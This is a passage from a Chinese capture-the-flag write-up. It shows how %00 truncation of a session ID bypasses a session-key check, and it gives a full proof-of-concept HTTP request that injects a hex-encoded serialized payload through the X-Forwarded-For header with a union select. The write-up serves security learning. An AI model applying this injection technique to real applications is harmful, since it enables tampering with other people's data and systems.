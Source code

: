 这样多余的0就可以作为后面的校验值了。

当我们设置`SESSID=QYHuItTPcsD1yj4npiRWGvChx0FLBw6%002ad2457`时，运行的结果如下：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](img/20171114-1.png)

这样就完成了SQL注入的第一步了，下面就是构造序列化的内容，然后转换为十六进制。序列化的内容十分的简单，需要设置分数大于100份即可，`a:2:`{`s:4:"name";s:6:"hahaha";s:5:"score";s:3:"102";`}``,转换为十六进制`0x613a323a7b733a343a226e616d65223b733a363a22686168616861223b733a353a2273636f7265223b733a333a22313032223b7d`。

至此，所有的问题都解决了，最后的PoC为:

```
GET URL HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: SESSID=QYHuItTPcsD1yj4npiRWGvChx0FLBw6%002ad2457
X-Forwarded-For: /**/union select 0x613a323a7b733a343a226e616d65223b733a363a22686168616861223b733a353a2273636f7265223b733a333a22313032223b7d #
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

注意设置Cookie和XXF。



## 总结

一般的截断通过是为了保留得到单引号，但是相较于常规的截断手法，你会发现在本例中完全不适用，无法绕过关键的校验是`$this-&gt;gen_session_key($tmp_session_id) == substr($this-&gt;session_id, 32)`，同时在绕过了这个校验之后还需要保留单引号，最终采用`%00`截断完美地解决了这个问题。

这是一道非常好的题目，虽然所有的考察点都知道，但是结合在一起确实如此的精妙，遇到了问题看来需要多想多思考，在安全这条路上还有很长的一段路要走。
